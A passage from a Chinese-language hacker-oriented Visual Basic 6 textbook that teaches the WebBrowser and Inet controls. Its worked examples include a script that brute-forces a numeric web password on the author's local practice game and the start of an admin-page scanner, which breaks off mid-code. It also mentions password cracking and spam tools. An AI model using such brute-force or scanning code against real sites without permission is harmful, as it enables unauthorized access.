    WebBrowser1.Document.Forms("f").wd.SetAttribute "value", "黑客手册"
End Sub

Private Sub Command2_Click()
    ' 提交进行搜索
    WebBrowser1.Document.Forms("f").submit
End Sub

Private Sub Form_Load()
    ' 窗体载入时打开页面
    WebBrowser1.Navigate "http://www.baidu.com"
End Sub
```

在上面的代码中，由于我们已经事先知道了表单的名字，就可以使用 WebBrowser1.Document.Forms("f") 来返回表单对象。WebBrowser1.Document.Forms("f").wd 返回的是文本输入框对象，使用它的 SetAttribute 方法为 Value 赋新值“黑客手册”。单击按钮 1 后的效果如图 3-31 所示。

我们使用表单的 Submit 方法就可以将表单提交出去。单击按钮 2 后的效果如图 3-32 所示。可以看到，表单已经被提交出去了。

> **提示：** 这里使用到了网页中某个对象的 SetAttribute 方法，它的基本形式是：网页中的对象.setAttribute(参数名, 参数值)。

这样就可以更改网页中对象的参数值了。

上面的代码使我们知道了 SetAttribute 方法的使用。下面再介绍一个例子，如果我们想要把百度首页中的“百度一下”按钮变灰，也就是不可用，可以使用下面的代码。从上面百度首页中提取的 HTML 代码可以看到，按钮的 ID 值是 sb：WebBrowser1.Document.Forms("f").sb.setAttribute "disabled", "disabled"。

运行后如图 3-33 所示，是不是“百度一下”按钮不可用了呢？如果需要恢复这个按钮为可用，则只需要设置“disabled”参数的值为空就行了：WebBrowser1.Document.Forms("f").sb.setAttribute "disabled", ""。设置完毕，我们会发现，网页中的这个按钮又可用了。从上面的例子可以看出来，WebBrowser 对网页中的各个元素的操作是非常方便的。

### 3.3.2 使用 WebBrowser 实现简单密码破解

使用 WebBrowser 可以实现简单的暴力破解，不过，需要提前指出的是，它的破解效率是不敢恭维的，但这可为大家提供一个思路。

这里做一个最简单的示例，之前我写了一个“网页解密游戏”，要求输入一个 1 到 1000 之间的数字，输入正确，则可以进入下一关，如图 3-34 所示。

这种破解太过简单，甚至连一个密码字典都是不需要的，直接使用一个变量或 TextBox 来保存密码即可。当输入的数字错误时，网页中会出现文字提示“密码错误”，如图 3-35 所示。而当密码正确时，则自动转入到第二关，这也就成为我们判断破解成功的依据：当网页的 HTML 代码中出现“密码错误”字符串时，则密码错误；否则，密码正确，破解成功。

首先从表单中提取关键信息：

```html
<form name=form1 method=post><hr><br>
<font color=yellow><b>请输入1到1000之间的某一个数字通关：</b></font><br><br>
<input type=text name=numpass>
<input type=submit value="提交">
</form>
```

可以看到，需要提交的参数是 numpass，这个参数表示数字密码，而表单的名字是 form1，是以 Post 方式提交的。提交的 Action 地址被省略了，表明是页面本身，这个页面的地址是：http://127.0.0.1/hackgame2/four/index.ASP。

新建一个工程，在窗体中添加一个 WebBrowser、一个 TextBox 和一个 Timer（用于延时，Interval 属性的值是 200）。如图 3-36 所示。

然后在代码窗口中添加如下代码：

```vb
'Post 这个 Sub 过程是专门用来 Post 提交数据的
Private Sub Post()
    Dim PostData() As Byte            '需要提交的数据，Byte 型
    Dim Headers As String             'HTTP 头信息
    PostData = "numpass=" & Text1.Text   '需要提交的数据，密码是 Text1 中的值

    PostData = StrConv(PostData, vbFromUnicode) '转换数据
    Headers = "Content-Type: application/x-www-form-urlencoded" 'HTTP 头信息
    '使用 WebBrowser 将数据提交出去
    WebBrowser1.Navigate "http://127.0.0.1/hackgame2/four/index.ASP", 0, "", PostData, Headers
End Sub

Private Sub Form_Load()
    '窗体载入时打开页面，打开完毕会触发 DocumentComplete 事件
    WebBrowser1.Navigate "http://127.0.0.1/hackgame2/four/index.ASP"
End Sub

Private Sub Timer1_Timer()
    '将 Text1 中的值作为密码提交出去
    Call Post
    '将 Timer1 设置成不可用
    Timer1.Enabled = False
End Sub

Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    Dim AllCode As String                 '用于存储 Body 中的所有 HTML 代码
    AllCode = WebBrowser1.Document.body.innertext   '返回 Body 之间的所有 HTML 代码
    '如果代码中有下面的字样，则说明密码错误
    If InStr(AllCode, "密码错误") Or InStr(AllCode, "请输入1到1000之间的某一个数字通关") Then
        '密码错误，则继续破解下一个密码，Text1 中的值增加 1
        Text1.Text = Text1.Text + 1
        Timer1.Enabled = True             '延时 200 毫秒后提交
    Else
        MsgBox "破解成功,密码是：" & Text1.Text   '破解成功，提示密码
    End If
End Sub
```

运行上面的代码可以看到 Text1 中的数字从 0 一直开始不断增加，直到 121 时，提示“破解成功”，此时得到正确的密码“121”，如图 3-37 所示。

我们再对上面的代码作一些说明，尽管它比较简单。当窗体载入时，打开需要破解的页面，此时触发 WebBrowser 的 DocumentComplete 事件，我们开始尝试提交第一个密码“0”。若密码恰好是“0”，那么提示“破解成功”，破解任务终止；若密码不是 0，则我们将 Text1 中的数字增加 1，调用 Post 这个 Sub 过程尝试提交出去，之后又会触发 WebBrowser 的 DocumentComplete 事件，若密码正确，破解终止，若不正确，则继续破解，以此方法循环下去直到密码正确为止。

问：这里为什么要使用一个 Timer 控件？

答：因为我们需要进行一定的延时再提交下一个密码，如果不延时，会感觉程序在不停止地打开页面，消耗的资源较多。另外，使用 Timer 控件，我们也可以很方便地设置延时的值，如果你觉得没必要延时，那么，将 Timer 控件的 Interval 属性设置成 1 即可。

### 3.3.3 使用 WebBrowser 返回百度搜索的前 10 条结果

获取搜索引擎的结果，这在编写垃圾邮件发送程序、信息采集程序的时候是非常重要的。这里我们示例获取百度搜索的前 10 条结果，包括链接的标题名称和 URL。要对网页中的信息进行分析，首先得分析网页中的代码，我们在百度中搜索“冰域剑客”，查看源代码（百度的源代码看起来非常之乱，我对其进行了整理，只提取部分关键代码），这里只有前两条结果的部分代码：

```html
<table border="0" cellpadding="0" cellspacing="0" id="1">
<tr>
<td class=f>
<a href="http://www.lijiejie.cn/blog/" target="_blank">
冰域剑客&#39;blog —— 李勋杰、李杰杰、lijiejie，南充高中嘉陵校区...
</a>
<br>
</td>
</tr>
</table>
<br>
<table border="0" cellpadding="0" cellspacing="0" id="2">
<tr>
<td class=f>
<a href="http://www.alimama.com/membersvc/zone/2740174.html" target="_blank">
冰域剑客联盟－冰域剑客联盟底部广告位 ---- 阿里妈妈！全球领先的中...
</a>
<br>
</td>
</tr>
</table>
<br>
... ... 后面的所有结果都省略
```

分析上面的代码可以发现，百度的搜索结果都是保存在表格（Table）中的，每一条结果都有一个表格来作为容器，不同的表格按 ID 值来区分，第一个表格 ID 是 1，第二个表格的 ID 是 2，以此类推。表格只有一行，即 `<tr>` 和 `</tr>` 只有一对。而在行的第一个列中，保存了超链接的地址和链接的标题，即 `<td>` 和 `</td>` 之间。

我们新建一个工程，在窗体中画一个 WebBrowser 控件、一个 CommandButton、一个 ListBox 和一个 Label 标签。为我们的程序添加以下代码：

```vb
Private Sub Command1_Click()
    List1.Clear                      '清除 List1 中的项目
    Dim gettable
    '返回所有的 Table 对象，也就是返回所有的表格对象
    Set gettable = WebBrowser1.Document.getelementsbytagname("table")
    '遍历表格对象集合中的所有元素
    For i = 0 To gettable.length - 1
        idname = gettable.Item(i).id      '返回表格的 ID 值到变量 idname 中
        If idname <> "" Then
            '如果 idname 不为空，则返回表格的 Td 对象，即表格中的列
            Set gettable2 = gettable.Item(i).getelementsbytagname("td")
            '返回第一个列中的 A 对象，即超链接
            Set gettable3 = gettable2.Item(0).getelementsbytagname("A")
            '将超链接中的文本和链接 URL 添加到 List1 中
            List1.AddItem idname & " | " & gettable3(0).innertext & gettable3(0).href
        End If
    Next
End Sub

Private Sub Form_Load()
    '窗体载入时打开百度搜索页面
    WebBrowser1.Navigate "http://www.baidu.com/s?ie=gb2312&bs=%B1%F9%D3%F2%BD%A3%BF%CD&sr=&z=&cl=3&f=8&wd=%B1%F9%D3%F2%BD%A3%BF%CD&ct=0"
End Sub

Private Sub List1_Click()
    '提示选中的链接的结果
    MsgBox List1.List(List1.ListIndex), vbInformation, "获取百度搜索结果!"
End Sub
```

图 3-38 获取百度搜索的前 10 条结果

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, URL As Variant)
    Dim tempcode
    '返回 Body 中的所有 HTML 代码到变量 tempcode 中
    tempcode = WebBrowser1.Document.body.innerHTML
    Dim pstart, pend As Integer
    '获取字符串的开始位置
    pstart = InStr(tempcode, "百度一下，找到相关网页约")
    '"百度一下，找到相关网页约" 字符串总共是 13 个字符
    '加 12 取得篇数字符的开始位置
    pstart = pstart + 12      '取得开始位置
    pend = pstart             '篇数的结束位置起始为开始的位置
    '如果结束位置的这个字符不是“篇”字，则继续判断后一个字符
    While Mid(tempcode, pend, 1) <> "篇"
        pend = pend + 1
    Wend
    '在 Label1 中显示百度结果中的结果篇数
    Label1.Caption = "百度一下，找到相关网页约" & Mid(tempcode, pstart, pend - pstart + 1)
End Sub
```

图 3-39 获取某条链接的信息

运行上面的代码，如图 3-38 所示，返回了 2050 篇结果。如果我们单击列表中的某条结果，比如说第一条，就会得到如图 3-39 所示的结果。

对于上面的程序，我再做一些说明。WebBrowser1.Document.getelementsbytagname("table") 返回的是一个表格对象的集合，它被赋值给变量 gettable。gettable.Item(i).id 这句代码返回的是第 i+1 个表格的 Id 属性值。同理，代码 gettable.Item(i).getelementsbytagname("td") 返回的是第 i+1 个表格中的所有 Td 对象，我们知道超链接是保存在 `<Td>` 和 `</Td>` 之间的，它被返回给了 gettable2。我们继续返回下一级对象，就到了 gettable3：gettable2.Item(0).getelementsbytagname("A")，它返回的是第一个 td 对象中的所有超链接对象的集合，但事实上，这里集合中只有一个元素。

关于获取百度搜索结果中的篇数，说明如下。我们的方法是在 HTML 代码中寻找关键字“百度一下，找到相关网页约”，我们需要的篇数是保存在它和“篇”之间的。在获取到了“百度一下，找到相关网页约”这几个字的位置以后，我们依次向后寻找“篇”字。直到最后，我们把这个“篇”字的位置找到并赋值给 Pend（这里 P 是 Position 的意思）。

> **提示：**以上代码涉及到了部分 HTML 的知识，如果你在这方面还不太熟悉，请参阅相关内容。对于暂时还无法理解的读者朋友，请在学习完了 HTML 之后再反复看这段代码。

看完这段代码，请大家写一写类似的程序。比如，可以获取 Google 搜索结果的前 10 条结果，代码与之类似，改动极小。

到此 WebBrowser 控件的介绍告一段落。在讲述 WebBrowser 控件的内容时，还涉及到了网页编程的知识，最重要的是 DHTML 编程。我在光盘中附的《网页制作完全手册》，请大家一定记得看看，网络编程时亦可作为参考资料。

## 3.4 Microsoft Internet Transfer 控件

我们之前说到，WebBrowser 控件在破解效率方面是不敢让人恭维的，然而，Microsoft Internet Transfer 控件在破解效率上，却是很优越的。它不用将网页中的所有元素都呈现出来，却可以获取完整的代码。它支持 HTTP 和 FTP 两种协议，可以使用它来进行 FTP 密码破解。如果我们建立控件数组，甚至可以实现多线程扫描和破解。

Microsoft Internet Transfer 控件是一个 Active X 控件，在使用它时必须先添加到工具箱中，在工具箱上单击“右键”选择“部件”，勾选“Microsoft Internet Transfer 6.0”，确定后即可将 Inet 控件添加到工具箱中。

### 3.4.1 Inet 控件的属性

Inet 控件的诸多属性我们在下表中列出：

| 属性名称 | 功能描述 |
|---|---|
| AccessType 属性 | 设置或返回一个值，决定该控件用来与 Internet 网进行通信的访问类型（通过代理访问或直接访问） |
| Document 属性 | 返回或设置与 Execute 方法一起使用的文件或文档 |
| Index 属性 | 返回或设置整数，它唯一指定集合中的对象 |
| Name 属性 | 返回在代码中用于标识窗体、控件、或数据访问对象的名字 |
| Object 属性 | 返回对象与/或对象的方法或属性的设置 |
| Parent 属性 | 返回包含控件、或其它对象或者集合的窗体、对象、或集合 |
| Password 属性 | 设置或返回一个密码；该密码将和请求一道被发送，用以在远程计算机上登录。如果该属性为空，控件将发送一个缺省的密码 |
| Protocol 属性 | 设置或返回一个值，指定和 Execute 方法一起使用的协议 |
| Proxy 属性 | 设置或返回用以和 Internet 网进行通信的代理服务器名称。只有当 AccessType 属性设置为 icNamedProxy(3) 时，才使用该属性 |
| RemoteHost 属性 | 返回或设置远程计算机。控件向它发送数据或从它那里接收数据 |
| RemotePort 属性 | 返回或设置要连接的远程端口号 |
| RequestTimeout 属性 | 设置或返回在超时截止之前，按秒计算的等待时间长度 |
| ResponseCode 属性 | StateChanged 事件中出现 icError(11) 状态时，从连接返回错误码 |
| ResponseInfo 属性 | 返回最后发生的错误的文本。想得到该错误码，检查 ResponseCode 属性 |
| StillExecuting 属性 | 返回一个值，指出此 Internet Transfer 控件是否处于忙状态 |
| Tag 属性 | 返回或设置一个表达式用来存储程序中需要的额外数据 |
| URL 属性 | 设置或返回 Execute 或 OpenURL 方法使用的 URL |
| UserName 属性 | 设置或返回与请求一起发送到远程计算机的名称。如果该属性为空，当提出请求时，该控件将把“anonymous”作为用户名来发送 |
| hInternet 属性 | 从下一级的 Wininet.dll API 返回 Internet 句柄 |

下面对部分属性做更深入的介绍。

#### a) AccessType 属性

该属性用于设置或返回一个值，决定该控件用来与 Internet 网站进行通信的访问类型（通过代理访问或直接访问）。它的基本形式：`Inet控件名.AccessType = 类型`。

类型可以设置的值如下表所示：

| 常数 | 值 | 描述 |
|---|---:|---|
| icUseDefault | 0 | 缺省。使用缺省值。控件使用在注册表中找到的缺省设置值来访问 Internet 网。 |
| icDirect | 1 | 直接连到 Internet 网。控件直接连到 Internet 网。 |
| icNamedProxy | 2 | 命名代理。指示控件使用 Proxy 属性中指定的代理服务器。 |

如果我们使用的代理上网，则请设置成 `icNamedProxy`。

#### b) Password 属性

该属性设置或返回一个密码，该密码将和请求一道被发送，用以在远程计算机上登录。如果该属性为空，控件将发送一个缺省的密码。它的基本形式是：`Inet控件名.Password = 字符串`。

如下面的表格中所示，控件发送的缺省密码将取决于确切的方案：

| UserName 属性 | Password 属性 | 发送到 FTP 服务器的 UserName | 发送到 FTP 服务器的 Password |
|---|---|---|---|
| Null 或 "" | Null 或 "" | "anonymous" | 用户的电子邮件名 |
| 非空字符串 | Null 或 "" | UserName 属性 | "" |
| Null | 非空字符串 | 错误 | 错误 |
| 非空字符串 | 非空字符串 | UserName 属性 | Password 属性 |

#### c) Protocol 属性

该属性设置 Execute 方法使用的协议。它的基本形式是：`Inet控件名.Protocol = 整数`。Protocol 的有效设置值如下表所示：

| 常数 | 值 | 描述 |
|---|---:|---|
| icUnknown | 0 | 未知的。 |
| icDefault | 1 | 缺省协议。 |
| icFTP | 2 | FTP。文件传输协议。 |
| icReserved | 3 | 为将来预留。 |
| icHTTP | 4 | HTTP。超文本传输协议。 |
| icHTTPS | 5 | 安全 HTTP。 |

#### d) RemoteHost 属性

返回或设置远程计算机，控件向它发送数据或从它那里接收数据。既可提供主机名，比如“FTP://ftp.microsoft.com”，也可提供点格式下的 IP 地址字符串，比如“100.0.1.1”。

> 提示：在调用 OpenURL 或 Execute 方法时也可改变 RemoteHost 属性。在运行时直到下一个连接之前，改变该值都不会造成什么影响。

#### e) RemotePort 属性

该属性返回或设置要连接的远程端口号。它的基本形式是：`Inet控件名.RemotePort = 端口号`。

在设置 Protocol 属性时，将对每个协议自动把 RemotePort 属性设置成适当的缺省端口。下表列出缺省端口号：| 端口 | 描述 |
|---|---|
| 80 | HTTP，通常用于 World Wide Web 连接。 |
| 21 | FTP。 |

如果我们省略了 RemotePort 的值，则根据 Protocol 的值自动设置成默认端口号。

#### f) StillExecuting 属性

该属性返回一个 Boolean 值，指明此 Internet Transfer 控件是否处于忙状态。如果该控件正在做诸如从 Internet 网上检索文件之类的操作，将返回 True。当该控件处于忙的时候，无法响应其他的请求。

这是一个非常重要的属性，如果我们在使用 Inet 控件进行某项操作时未判断控件是否正忙，则很容易出现错误，导致程序崩溃。

#### g) URL 属性

该属性设置或返回 Execute 或 OpenURL 方法使用的 URL。它的基本形式是：Inet 控件名.URL [= url]。

> **注意：**URL 属性至少必须包含一个协议和一个远程主机名。

URL 属性可以是目录或文件。例如，下面这两个 URL 都是有效的：

```vb
' 设置该 URL，仅返回文件目录：
Inet1.URL = "HTTP://www.microsoft.com"
' 然而，该 URL 将返回文件的文本：
Inet1.URL = "HTTP://www.microsoft.com/disclaimer.txt"
```

### 3.4.2 Inet 控件的方法

Inet 控件的方法不多，请参考下面的表格：

| 方法名 | 功能描述 |
|---|---|
| Cancel 方法 | 取消当前请求，并关闭当前创建的所有连接。 |
| Execute 方法 | 执行对远程服务器的请求。只能发送对特定协议有效的请求。 |
| GetChunk 方法 | 从 StateChanged 事件中检索数据。把 Execute 方法当作 GET 操作来调用之后使用该方法。 |
| GetHeader 方法 | 用于检索 HTTP 文件的标头文本。 |
| OpenURL 方法 | 打开并返回指定 URL 的文档。 |

#### a) Cancel 方法

取消当前请求，并关闭当前创建的所有连接。它的基本形式是：Inet 对象名.Cancel。使用它可以将 Inet 控件重置。

#### b) Execute 方法

这是一个极为重要的方法。它可以执行对远程服务器的请求，只能发送对特定协议有效的请求。例如，我们可以使用 Get 方法或 Post 方法提交数据。它的基本形式是：Inet 对象名.Execute url, operation, data, requestHeaders。

参数 url 是可选的，字符串类型，指定控件将要连接的 URL。如果这里未指定 URL，将使用 Inet 控件 URL 属性中所指定的 URL。参数 operation 用于指定我们将要进行的操作。它的值可以是以下这些 HTTP 命令或者 FTP 命令。

##### A. 支持的 HTTP 命令列表

| 命令 | 描述 |
|---|---|
| GET | 检索由 URL 属性指定的 URL 中的数据。 |
| HEAD | 发送请求的标头。 |
| POST | 传递数据给服务器。该数据在 data 参数中。这是 GET 的替代方法，附加的指令在 data 参数中指定。 |
| PUT | Put 操作。被替代的页名在 data 参数中。 |

我们使用得最多的当然就是 GET 和 POST 了。很多时候，需要进行 Web 页面上密码的破解，都需要设定它的值为 POST。

##### B. 支持的 FTP 命令

| 命令 | 描述 |
|---|---|
| CD file1 | 改变目录。改变到 file1 中指定的目录。 |
| CDUP | 改变到父目录。等效于“CD..”。 |
| CLOSE | 关闭当前的 FTP 连接。 |
| DELETE file1 | 删除 file1 中指定的文件。 |
| DIR file1 | 目录。搜索 file1 中指定的目录。（允许用通配符，但要使用远程主机的语法。）如果没有指定 file1，将返回当前的整个工作目录。使用 GetChunk 方法返回目录数据。 |
| GET file1 file2 | 检索 file1 中指定的远程文件，并创建 file2 中指定的新本地文件。 |
| LS file1 | 列表。搜索 file1 中指定的目录。（允许用通配符，但要使用远程主机的语法。）使用 GetChunk 方法返回文件目录数据。 |
| MKDIR file1 | 创建目录。创建 file1 中指定的目录。创建是否成功取决于用户在远程主机上的权限。 |
| PUT file1 file2 | 复制 file1 指定的本地文件到 file2 指定的远程主机上。 |
| PWD | 打印工作目录。返回当前目录名。使用 GetChunk 方法返回数据。 |
| QUIT | 终止当前用户。 |
| RECV file1 file2 | 检索 file1 中指定的远程文件，并创建 file2 中指定的本地新文件。等效于 GET。 |
| RENAME file1 file2 | 将 file1 中命名的远程文件重命名为 file2 中指定的新名称。成功与否取决于用户在远程主机上的权限。 |
| RMDIR file1 | 删除目录。删除 file1 中指定的远程目录。成功与否取决于用户在远程主机上的权限。 |
| SEND file1 file2 | 复制 file1 指定的本地文件到 file2 指定的远程主机上。等效于 PUT。 |
| SIZE file1 | 返回 file1 指定的目录的大小。 |

参数 Data 是可选的，字符串类型，指定用于操作的数据。在上面的表格中可以看出，我们在使用 Post 提交数据时，Data 参数就是我们需要提交的数据。参数 requestHeaders 也是可选的，字符串类型，指定由远程服务器传来的附加标头。Execute 方法的身影将在后面不断出现，希望大家能够掌握好。

#### c) GetChunk 方法

该方法用于从 StateChanged 事件中检索数据。把 Execute 方法当作 GET 操作来调用之后使用该方法。它的基本形式是：`Inet 控件名.GetChunk(size [,datatype])`。

| 参数名 | 描述 |
|---|---|
| Size | 必需。长整型数值表达式，决定被检索的块的大小。 |
| datatype | 可选。整数，决定被检索块的数据类型，如下面的“设置值”所示。 |

参数 datatype 的设置值：

| 常数 | 值 | 描述 |
|---|---|---|
| icString | 0 | 缺省值。把数据作为字符串来检索。 |
| icByteArray | 1 | 把数据作为字节数组来检索。 |

如果我们是使用 Inet 检索网页的数据，那么使用 icString 即可，也就是默认值。但如果我们使用 Inet 从网上下载文件，那么请使用 icByteArray，返回字节流。

#### d) GetHeader 方法

该方法用于检索 HTTP 文件的标头文本。它的基本形式是：`Inet 控件名.GetHeader(hdrName)`。其中 hdrName 是一个可选参数，字符串类型，指定将被检索的标头。它可以是以下这些值：

| 标头 | 描述 |
|---|---|
| Date | 返回文档传输的日期和时间。返回的数据格式为：Wednesday, 27-April-96 19:34:15 GMT。 |
| MIME-version | 返回 MIME 协议的版本号，目前为 1.00。 |
| Server | 返回服务器的名称。 |
| Content-length | 返回数据的字节长度。 |
| Content-type | 返回数据的 MIME 当前类型。 |
| Last-modified | 返回最后一次修改文档的日期和时间。返回的数据格式为：Wednesday, 27-April-96 19:34:15 GMT。 |

#### e) OpenURL 方法

该方法用于打开并返回指定 URL 的文档。文档以变体类型返回。该方法完成时，URL 的各种属性（以及该 URL 的一些部分，如协议）将被更新，以符合当前 URL。它的基本形式是：Inet 控件名.OpenURL url [,datatype]。

- 参数 url 是必需的，它表示被检索文档的 URL。
- 参数 datatype 是可选的，它是一个整数，指定数据类型。可以是下面的值：

| 常数 | 值 | 描述 |
|---|---:|---|
| icString | 0 | 缺省值。把数据作为字符串来检索。 |
| icByteArray | 1 | 把数据作为字节数组来检索。 |

> **说明：**OpenURL 方法的返回值取决于 URL 的目标。例如，如果 URL 的目标是某个 FTP 服务器的目录，将返回该目录。另一方面，如果目标是一个文件，则检索该文件。

OpenURL 方法等效于调用带 GET 操作的 Execute 方法，然后在 StateChanged 事件中调用 GetChunk 方法。

下面的例子使用 OpenURL 方法从 FTP 服务器上下载一个二进制文件。如下所示，如果正在检索一个二进制文件，在把它写到磁盘上之前，请务必使用一个字节数组作为临时变量：

```vb
Dim b() As Byte
Dim strURL As String
' 设置 strURL 为一个有效的地址。
strURL = "FTP://ftp.GreatSite.com/China.exe"
b() = Inet1.OpenURL(strURL, icByteArray)

Open "C:\Temp\China.exe" For Binary Access Write As #1
Put #1, , b()
Close #1
```

使用上面的方法可以很容易地实现从匿名 FTP 服务器上下载文件。这里所说的匿名 FTP 服务器，是指我们不需要密码登录就可以访问服务器。

下面的例子是使用 Inet 控件的 OpenURL 方法来返回网页的源代码。例如，如果我们需要返回“http://www.lijiejie.com/”这个 URL 的源代码到 Text1 中，就可以使用：

Text1 = Inet1.OpenURL("http://www.lijiejie.com", icString)。运行代码后如图 3-40 所示。

这里返回的是完整的源代码，跟大家在 IE 中查看源代码所获得的结果是一样的。


### 3.4.3 Inet 控件的事件

Inet 控件只有唯一的一个事件——StateChanged 事件。当连接中状态发生改变，就会引发该事件。它的基本形式是：`Inet控件名_StateChanged(ByVal State As Integer)`。这里有一个参数 `State`，它表示当前 Inet 控件的连接状态，它的可能值如下表所示：

| 常数 | 值 | 描述 |
|---|---:|---|
| icNone | 0 | 无状态可报告。 |
| icHostResolvingHost | 1 | 该控件正在查询所指定主机的 IP 地址。 |
| icHostResolved | 2 | 该控件已成功找到所指定主机的 IP 地址。 |
| icConnecting | 3 | 该控件正在与主机连接。 |
| icConnected | 4 | 该控件已与主机连接成功。 |
| icRequesting | 5 | 该控件正在向主机发送请求。 |
| icRequestSent | 6 | 该控件发送请求已成功。 |
| icReceivingResponse | 7 | 该控件正在接收主机的响应。 |
| icResponseReceived | 8 | 该控件已成功接收到主机的响应。 |
| icDisconnecting | 9 | 该控件正在解除与主机的连接。 |
| icDisconnected | 10 | 该控件已成功与主机解除了连接。 |
| icError | 11 | 与主机通信时出现了错误。 |
| icResponseCompleted | 12 | 该请求已经完成，并且所有数据均已接收。 |

这里最常用的常数是最后两个，即 `icError(11)` 和 `icResponseCompleted(12)`。第一个表示连接错误，通过它我们可以判断网络状况，比如一台计算机是否已经联网。第二个表示请求已经完成，数据也接收完毕，此时就可以通过 `GetChunk` 方法来得到所接收到的数据了。

下面的例子可以用于判断计算机是否已经联网。在窗体中画一个 Inet 控件，然后添加代码：

```vb
Private Sub Form_Load()
    Inet1.Execute "http://www.baidu.com"      ' 尝试连接百度
End Sub

Private Sub Inet1_StateChanged(ByVal State As Integer)
    If State = 12 Then                           ' 如果请求完成，数据返回成功，则已联网
        MsgBox "该计算机已联网"
    ElseIf State = 11 Then                       ' 如果连接出错，则未联网
        MsgBox "很抱歉，该计算机没有连接到互联网!"
    End If
End Sub
```

我们对 Inet 控件的基本介绍到此结束。

## 3.5 Microsoft Internet Transfer 控件使用示例

前面我们介绍的是 Inet 控件的一些基本属性、方法和事件，较少涉及实际应用。本节为大家介绍的是 Inet 控件使用较多的实际应用。

### 3.5.1 使用 Inet 从网上下载文件

```vb
Private Sub Form_Load()
    Dim FileByte() As Byte          ' 一个字节数组，用于保存返回的数据
    Dim URL As String               ' 需要下载的文件URL
    ' 为URL赋值
    URL = "http://www.lijiejie.com/attachments/month_0904/92009414111736.rar"
    ' 将数据返回到Byte数组FileByte中
    FileByte() = Inet1.OpenURL(URL, icByteArray)
    While Inet1.StillExecuting      ' 如果程序还在连接，则让其继续连接
        DoEvents
    Wend

    Open App.Path & "\test.rar" For Binary Access Write As #1   ' 以Binary打开文件test.rar
        Put #1, , FileByte()                                     ' 将字节数组写入到文件
    Close #1
End Sub
```

运行完上面的代码，会发现程序目录下多了一个 test.rar，双击打开可以看到是一个 3D 影片《彗星撞地球》，证明我们下载完成的确实是想要的文件。此处我们判断了程序是否 StillExecuting，也就是是否还在连接，这样可以防止连接出错。

下载图片、MP3 文件的方法与此类似，只是连接的 URL 和创建的文件名不同而已，读者朋友们可以尝试从网上下载一个 MP3 文件。

> 提示：如果对文本文件也使用 icByteArray 来进行下载，是允许的，但其实没有必要如此麻烦，因为简单使用 OpenURL 就可以返回所有文本信息。例如，我们需要下载 http://www.baidu.com/1.txt 到文本框 Text1 中，只需要用以下代码：

```vb
Dim URL As String
URL = "http://www.baidu.com/1.txt"
Text1 = Inet1.OpenURL(URL, icString)
```

### 3.5.2 使用 Inet 编写简易后台扫描工具

使用 Inet 可以很容易实现后台扫描工具。扫描后台其实就是判断常用的各种后台页面和目录是否存在，例如，判断“admin/login.asp”这样的页面是否存在，判断“manage/”这样的目录是否存在。判断页面是否存在的标准是连接该页面后，在返回的 Header 信息中是否出现 404 字样。下面提供的 HTTP 状态码供大家参考。

问：什么是 HTTP 状态码？

答：HTTP 状态码（HTTP Status Code）是用以表示网页服务器 HTTP 响应状态的 3 位数字代码。例如，404 表示文件没找到，而 200 表示服务器成功返回页面。

- 不同的状态会返回不同的状态码：
  - **1xx 消息**
    - 100 Continue
    - 101 Switching Protocols
    - 102 Processing
  - **2xx 成功**
    - 200 OK
    - 201 Created
    - 202 Accepted
    - 203 Non-Authoritative Information
    - 204 No Content
    - 205 Reset Content
    - 206 Partial Content
    - 207 Multi-Status
  - **3xx 重定向**
    - 300 Multiple Choices
    - 301 Moved Permanently
    - 302 Found
    - 303 See Other
    - 304 Not Modified
    - 305 Use Proxy
    - 306 Switch Proxy
    - 307 Temporary Redirect
  - **4xx 请求错误**
    - 400 Bad Request
    - 401 Unauthorized
    - 402 Payment Required
    - 403 Forbidden
    - 404 Not Found
    - 405 Method Not Allowed
    - 406 Not Acceptable
    - 407 Proxy Authentication Required
    - 408 Request Timeout
    - 409 Conflict
    - 410 Gone
    - 411 Length Required
    - 412 Precondition Failed
    - 413 Request Entity Too Large
    - 414 Request-URI Too Long
    - 415 Unsupported Media Type
    - 416 Requested Range Not Satisfiable
    - 417 Expectation Failed
    - 421 There are too many connections from your internet address
    - 422 Unprocessable Entity
    - 423 Locked
    - 424 Failed Dependency
    - 425 Unordered Collection
    - 426 Upgrade Required
    - 449 Retry With
  - **5xx 服务器错误**
    - 500 Internal Server Error
    - 501 Not Implemented
    - 502 Bad Gateway
    - 503 Service Unavailable
    - 504 Gateway Timeout
    - 505 HTTP Version Not Supported
    - 506 Variant Also Negotiates
    - 507 Insufficient Storage
    - 509 Bandwidth Limit Exceeded
    - 510 Not Extended


如果我们连接一个存在的页面，Inet 的 GetHeader 方法返回的信息如图 3-41 所示。

可以看到，是“200 OK”。若我们连接一个不存在的页面，则返回信息如图3-42所示。返回的是“404 Not Found”。

了解完基本知识，我们来编写程序。

在窗体中画一个 Inet 控件、一个 TextBox（用于输入网址）、一个按钮、两个 ListBox（List1 用于保存需要扫描的连接，List2 用于存放扫描到的连接）。在程序目录下新建一个 `data.inf` 文件，在文件里面保存常用的后台连接地址，基本格式如图3-43所示。

在窗体加载时，我们会将这些常用的后台地址加载到 List1 中，使用下面的代码：

```vb
Private Sub Form_Load()
    ' 将data.inf中的连接加载到list1中
    Dim ThisLine As String
    Open App.Path & "\data.inf" For Input As #1
    While Not EOF(1)
        Line Input #1, ThisLine
        List1.AddItem ThisLine
    Wend
    Close #1
End Sub
```


窗体中的所有控件布局如图3-44所示。

在窗体的通用部分添加代码：

```vb
Option Explicit
Dim ScanIndex As Integer   ' 扫描的URL的索引，表示正在检测第几个连接
```

这里 ScanIndex 是一个全局变量，用于保存我们正在检测第几条连接，通过判断 ScanIndex 的值就知道是否已经将所有的连接都扫描完毕了。我们来看程序的完整代码：

```vb
Option Explicit
Dim ScanIndex As Integer   ' 扫描的URL的索引，表示正在检测第几个连接

Private Sub Command1_Click()
    List2.Clear                               ' 清除上一次的扫描结果
    ScanIndex = 0                             ' 从第一条开始扫描
    Inet1.Execute Text1.Text & List1.List(ScanIndex)   ' 尝试连接第一个URL
End Sub

Private Sub Form_Load()
    ' 将data.inf中的连接加载到list1中
    Dim ThisLine As String
    Open App.Path & "\data.inf" For Input As #1
    While Not EOF(1)
        Line Input #1, ThisLine
        List1.AddItem ThisLine
    Wend
    Close #1
End Sub

Private Sub Inet1_StateChanged(ByVal State As Integer)
    If State = 12 Then                         ' 如果接收数据完毕
        ' 如果HTTP状态码是200或者403，则该页面或目录存在，添加到List2中
        If Mid(Inet1.GetHeader, 10, 3) = "200" Or Mid(Inet1.GetHeader, 10, 3) = "403" Then
